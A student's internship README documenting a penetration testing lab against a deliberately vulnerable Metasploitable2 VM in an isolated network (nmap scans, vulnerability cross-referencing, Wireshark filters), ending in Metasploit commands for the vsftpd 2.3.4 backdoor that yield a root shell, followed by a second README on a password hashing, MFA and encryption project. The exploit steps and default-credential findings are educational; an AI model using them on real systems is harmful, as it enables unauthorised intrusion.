# Network Penetration Testing Lab

**CloudExify Cybersecurity Internship 2026 — Month 1, Project 1**
---

## 👤 Author

**Muhammad Shoaib Ahmed**
FA24-BCS-044 | Section BCS-4A
BS Computer Science, COMSATS University Islamabad — Wah Campus

---

## ⚠️ Ethical Disclosure

This project was conducted entirely within an isolated virtual lab environment (VirtualBox Internal Network), using intentionally vulnerable, legally distributed practice machines (Metasploitable2). No real systems, external networks, or third parties were accessed. All testing was authorized, self-contained, and performed strictly for educational purposes as part of the CloudExify Cybersecurity Internship.

---

## 📋 Table of Contents

- [Introduction](#introduction)
- [Objectives](#objectives)
- [Lab Environment](#lab-environment)
- [Setup](#setup)
- [Reconnaissance](#1-reconnaissance)
- [Service Enumeration](#2-service-enumeration)
- [Vulnerability Identification](#3-vulnerability-identification)
- [Packet Analysis (Wireshark)](#4-packet-analysis-wireshark)
- [Exploitation](#5-exploitation-bonus)
- [Challenges & Troubleshooting](#challenges--troubleshooting)
- [Conclusion](#conclusion)
- [Tools Used](#tools-used)
- [Repository Contents](#repository-contents)

---

## Introduction

This project is a hands-on network penetration testing lab built to practice real-world vulnerability discovery in a fully isolated, controlled environment. It follows the standard penetration testing methodology — reconnaissance, scanning, enumeration, vulnerability identification, and reporting — against a deliberately vulnerable target machine, with all traffic captured and analyzed using Wireshark.


---

## Objectives

- Build a fully isolated virtual lab environment to safely practice penetration testing
- Apply the standard pentest methodology: reconnaissance → scanning → enumeration → vulnerability identification → reporting
- Identify exact service versions running on the target and cross-reference them against known vulnerabilities
- Capture and analyze live network traffic using Wireshark
- Document findings in a clear, reproducible, professional format

---

## Lab Environment

| Component | Role | Details |
|---|---|---|
| VirtualBox | Virtualization platform | Hosts all VMs |
| Kali Linux | Attacker machine | Runs all scanning/analysis tools |
| Metasploitable2 | Target machine | Deliberately vulnerable Linux VM |
| Network Mode | Internal Network (`pentestlab`) | Fully isolated — no internet or real-network exposure |

**Why isolation matters:** Metasploitable2 contains intentionally unpatched, exploitable vulnerabilities. Running it on an isolated Internal Network ensures none of these are ever reachable from a real network.

---

## Setup

### VM Creation
Two VirtualBox VMs were created: Kali Linux (attacker) and Metasploitable2 (target).

### Network Configuration
Both VMs' Adapter 1 were set to:
- **Attached to:** Internal Network
- **Name:** `pentestlab`


### Static IP Assignment

Since Internal Network mode provides no DHCP, both machines were assigned static IPs manually.

**Kali:**
```bash
sudo ip addr add 192.168.56.10/24 dev eth0
sudo ip link set eth0 up
```

**Metasploitable2:**
```bash
sudo ifconfig eth0 192.168.56.101 netmask 255.255.255.0 up
```


### Connectivity Verification
```bash
ping 192.168.56.101
```


---

## 1. Reconnaissance

**Goal:** confirm the target is alive and reachable before scanning further.

```bash
nmap -sn 192.168.56.101
```


### Basic Port Scan
```bash
nmap -oN nmap_output.txt 192.168.56.101
```

Result: 23 open TCP ports identified, including FTP (21), SSH (22), Telnet (23), SMTP (25), DNS (53), HTTP (80), SMB (139/445), MySQL (3306), PostgreSQL (5432), VNC (5900), IRC (6667), and Apache Tomcat (8180).


---

## 2. Service Enumeration

**Goal:** identify the exact software and version behind each open port.

```bash
nmap -sV -sC -p- 192.168.56.101 -oN enumeration.txt
```


### Aggressive Scan (OS + version + scripts + traceroute)
```bash
nmap -A 192.168.56.101
```


### Enumeration Findings

| Port | Service | Version Identified |
|---|---|---|
| 21 | FTP | vsftpd 2.3.4 |
| 22 | SSH | OpenSSH 4.7p1 Debian 8ubuntu1 |
| 23 | Telnet | Linux telnetd |
| 25 | SMTP | Postfix smtpd |
| 80 | HTTP | Apache 2.2.8 (Ubuntu) |
| 139/445 | SMB | Samba smbd 3.X |
| 3306 | MySQL | MySQL 5.0.51a-3ubuntu5 |
| 5432 | PostgreSQL | PostgreSQL 8.3.0 |
| 6667 | IRC | UnrealIRCd |
| 8180 | HTTP (Tomcat) | Apache Tomcat/Coyote JSP engine 1.1 |

### Web Server Enumeration
```bash
curl http://192.168.56.101/
```


### SMB Share Enumeration
```bash
nmap --script smb-enum-shares -p 139,445 192.168.56.101
```


---

## 3. Vulnerability Identification

**Goal:** cross-reference each identified service version against known CVEs.

### Automated Scan
```bash
nmap --script vuln -p- 192.168.56.101 -oN vulnerability_scan.txt
```


### Manual Cross-Referencing
```bash
searchsploit vsftpd 2.3.4
searchsploit unrealircd
searchsploit samba 3.0
searchsploit apache 2.2.8
```


### Vulnerability Summary

| Service | Version | Vulnerability | Reference | Severity |
|---|---|---|---|---|
| vsftpd | 2.3.4 | Backdoor command execution | Metasploit: `exploit/unix/ftp/vsftpd_234_backdoor` | Critical |
| UnrealIRCd | 3.2.8.1 | Backdoor command execution | CVE-2010-2075 | Critical |
| Samba | 3.0.20 | Remote code execution (username map script) | CVE-2007-2447 | Critical |
| Apache Tomcat | (port 8180) | Default credentials (`tomcat`/`tomcat`) | — | High |
| MySQL | 5.0.51a | No root password set | — | High |
| Telnet | — | Unencrypted authentication | — | Medium |

---

## 4. Packet Analysis (Wireshark)

**Goal:** capture and analyze live network traffic to observe scan behavior and identify unencrypted data.

### Capture Setup
1. Started Wireshark on Kali's `eth0` interface (Internal Network)
2. Generated traffic using an active Nmap scan against the target
3. Applied filters to isolate relevant traffic

```bash
sudo wireshark
```


### Filters Applied

```
tcp.port == 21
```


```
tcp.flags.syn == 1
```


```
ip.src == 192.168.56.101
```


### Findings
Packet capture confirmed the TCP three-way handshake pattern generated by Nmap's SYN scan, and demonstrated that Telnet and FTP transmit authentication data in plaintext — directly visible in the packet payload with no encryption.

---

## 5. Exploitation (Bonus)

While not required by the project checklist, the vsftpd 2.3.4 backdoor was exploited to confirm the vulnerability was live and practically exploitable, not just theoretically flagged.

```bash
sudo msfconsole
```


```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
run
```


```
whoami
id
```


**Result:** Full root-level shell access obtained with no authentication required, confirming the vsftpd 2.3.4 backdoor vulnerability.

---

## Challenges & Troubleshooting

Documented here since infrastructure troubleshooting is itself part of real-world penetration testing work.

- **No IPv4 on eth0:** VirtualBox's Internal Network mode provides no DHCP server. Resolved by assigning static IPs manually to both VMs.
- **Subnet mismatch:** An address was briefly assigned in the wrong subnet range, causing unreachable errors. Resolved by aligning both machines to the same `192.168.56.0/24` subnet.
- **VM folder relocation:** Moving the VirtualBox VM storage folder caused Metasploitable2 to become "Inaccessible." Resolved by re-registering the VM via VirtualBox's Add/Open function.
- **Stale IP address:** After a network mode change, Kali's `eth0` retained a leftover NAT-assigned address alongside the intended static IP. Resolved using `ip addr flush dev eth0` before reassigning.


---

## Conclusion

This lab successfully carried out a complete penetration testing methodology against a deliberately vulnerable target: from network setup and host discovery, through detailed service enumeration and vulnerability cross-referencing, to live packet analysis and confirmed exploitation.

Key takeaways:
- Accurate, methodical enumeration was essential — the specific version detail (vsftpd 2.3.4) is what made targeted exploitation possible, not a generic port scan alone.
- Packet analysis confirmed real-world risk: services like Telnet and FTP transmit credentials in plaintext, directly observable to anyone capturing network traffic.
- Infrastructure and network configuration troubleshooting (subnetting, DHCP, adapter modes) proved to be a significant, realistic part of the overall assessment process.
- A single outdated, unpatched service was sufficient to gain full root access, reinforcing the real-world importance of consistent patch management.

---

## Tools Used

- **VirtualBox** — virtualization platform
- **Kali Linux** — attacker operating system and toolset
- **Metasploitable2** — intentionally vulnerable target machine
- **Nmap** — network scanning, enumeration, and vulnerability scripting
- **Wireshark** — packet capture and traffic analysis
- **searchsploit / Exploit-DB** — vulnerability cross-referencing
- **Metasploit Framework** — exploitation (bonus section)

---

## Repository Contents

```
cloudexify-sec-p1-shoaibahmed/
├── README.md
├── penetration_test_report.pdf
├── nmap_output.txt
├── enumeration.txt
├── vulnerability_scan.txt
├── wireshark_captures.pcap
└── screenshots/
    ├── 00-virtualbox-overview.png
    ├── 01-kali-network-settings.png
    ├── 02-metasploitable-network-settings.png
    ├── 03-kali-ip-config.png
    ├── 04-metasploitable-ip-config.png
    ├── 05-ping-success.png
    ├── 06-host-discovery.png
    ├── 07-basic-scan.png
    ├── a08-enumeration-scan.
    ├── b08-enumeration-scan.
    ├── 08c-enumeration-scan.
    ├── 09a-aggressive-scan.png
    ├── 09b-aggressive-scan.png
    ├── 09c-aggressive-scan.png
    ├── 10-web-enumeration.png
    ├── 11-smb-enum.png
    ├── 12a-vuln-scan.png
    ├── 12b-vuln-scan.png
    ├── 12c-vuln-scan.png
    ├── 12d-vuln-scan.png
    ├── 12e-vuln-scan.png
    ├── 12f-vuln-scan.png
    ├── 12g-vuln-scan.png
    ├── 12h-vuln-scan.png
    ├── 12i-vuln-scan.png
    ├── 12j-vuln-scan.png
    ├── 12k-vuln-scan.png
    ├── 13a-searchsploit.png
    ├── 13b-searchsploit.png
    ├── 14a-wireshark-capture.png
    ├── 14b-wireshark-capture.png
    ├── 14c-wireshark-capture.png
    ├── 14d-wireshark-capture.png
    ├── 15-wireshark-ftp-filter.png
    ├── 16-wireshark-syn-filter.png
    ├── 17-wireshark-ip-filter.png
    ├── 18-msfconsole-start.png
    ├── 19-exploit-success.png
    ├── 20-root-confirmed.png


*Project completed as part of the CloudExify Cybersecurity Internship Program 2026 — Month 1, Project 1.*
```
Project number 2
Cryptography & Password Security
CloudExify Cybersecurity Internship 2026

Completed by:
Muhammad Shoaib Ahmed
FA24-BCS-044 , Section BCS-4A
BS Computer Science, COMSATS University Islamabad (Wah Campus)

---

# Cryptography & Password Security — Month 1 Project 2

**CloudExify Cybersecurity Internship 2026**
Muhammad Shoaib Ahmed — FA24-BCS-044 — Section BCS-4A

---

## 📋 Table of Contents
- [Files](#files)
- [Environment Setup](#environment-setup)
- [1. Password Hashing & Registration (secure_auth.py)](#1-password-hashing--registration-secure_authpy)
- [2. Multi-Factor Authentication](#2-multi-factor-authentication)
- [3. Rate Limiting](#3-rate-limiting)
- [4. Symmetric Encryption (encryption_examples.py)](#4-symmetric-encryption-encryption_examplespy)
- [5. Asymmetric Encryption / RSA (rsa_example.py)](#5-asymmetric-encryption--rsa-rsa_examplepy)
- [6. Hash Comparison (hash_comparison.py)](#6-hash-comparison-hash_comparisonpy)
- [7. GUI Application (gui_app.py)](#7-gui-application-gui_apppy)
- [8. HTTPS Web Demo (https_demo.py)](#8-https-web-demo-https_demopy)
- [9. Automated Tests (test_secure_auth.py)](#9-automated-tests-test_secure_authpy)
- [Best Practices Checklist](#best-practices-checklist--status)
- [Testing Checklist](#testing-checklist--status)
- [Key Findings](#key-findings)

---

## Files
| File | Purpose |
|---|---|
| `secure_auth.py` | Core logic: registration, password hashing, rate limiting, MFA hooks |
| `mfa.py` | TOTP multi-factor authentication (like Google Authenticator) |
| `encryption_examples.py` | Symmetric encryption/decryption demo using Fernet (AES-based) |
| `hash_comparison.py` | Proves why plain SHA-256 is unsafe for passwords vs bcrypt |
| `rsa_example.py` | Asymmetric (public/private key) encryption demo using RSA |
| `https_demo.py` | Flask web server running over HTTPS with a self-signed cert |
| `gui_app.py` | Tkinter GUI for register / login / MFA verification |
| `test_secure_auth.py` | Automated tests covering the full Testing Checklist |
| `requirements.txt` | All libraries needed to run the project |
| `.gitignore` | Excludes the virtual environment, cache files, and local data from GitHub |
---
## Environment Setup

This project runs inside an isolated Python **virtual environment (venv)**,
so its dependencies (bcrypt, cryptography, pyotp, flask, pyopenssl) don't
conflict with anything else installed on the machine.

**Windows:**
```bash
python -m venv .venv
.venv\Scripts\activate

pip install -r requirements.txt
```



**macOS/Linux:**
```bash
python3 -m venv .venv
source .venv/bin/activate

pip install -r requirements.txt
```

Once activated, all installed packages live inside `.venv/Lib/site-packages`
(Windows) or `.venv/lib/pythonX.X/site-packages` (macOS/Linux) — completely
separate from any system-wide Python installation.




**Running scripts (with the venv activated):**
```bash
python secure_auth.py           # command-line demo
python test_secure_auth.py      # runs all 13 checklist tests
python gui_app.py               # GUI version (register/login/MFA)
python https_demo.py            # then open https://127.0.0.1:5000
```

**Note:** the `.venv/` folder, `__pycache__/`, and the local `users.json` /
`login_attempts.json` data files are excluded from GitHub via `.gitignore`
— the venv is machine-specific and shouldn't be pushed, and the data files
contain real password hashes and MFA secrets generated from local testing.



---

## 1. Password Hashing & Registration (`secure_auth.py`)

**Goal:** register a user with a strong password, confirm it's stored as a
bcrypt hash (never plaintext), and confirm weak passwords get rejected.

```bash
python secure_auth.py
```





### Stored data proof
```bash
cat users.json
```



---

## 2. Multi-Factor Authentication

**Goal:** show the second login factor (TOTP code) working end to end.

Secret added to an authenticator app (Google Authenticator / WinOTP):


Login using that code:



---

## 3. Rate Limiting

**Goal:** show the account locking out after repeated failed attempts.

```bash
# secure_auth.py demo tries 4 wrong passwords in a row
```



---

## 4. Symmetric Encryption (`encryption_examples.py`)

**Goal:** show data encrypted and decrypted with a Fernet key, and show
decryption failing with the wrong key.

```bash
python encryption_examples.py
```




---

## 5. Asymmetric Encryption / RSA (`rsa_example.py`)

**Goal:** show public-key encryption and private-key decryption working,
and show decryption failing with a mismatched private key.

```bash
python rsa_example.py
```







---

## 6. Hash Comparison (`hash_comparison.py`)

**Goal:** prove why bcrypt beats plain SHA-256 for password storage.

```bash
python hash_comparison.py
```





---

## 7. GUI Application (`gui_app.py`)

**Goal:** show the same system through a desktop interface.

```bash
python gui_app.py
```








---

## 8. HTTPS Web Demo (`https_demo.py`)

**Goal:** show the login flow running over an encrypted HTTPS connection
in an actual browser, including the self-signed certificate warning.

```bash
python https_demo.py
```



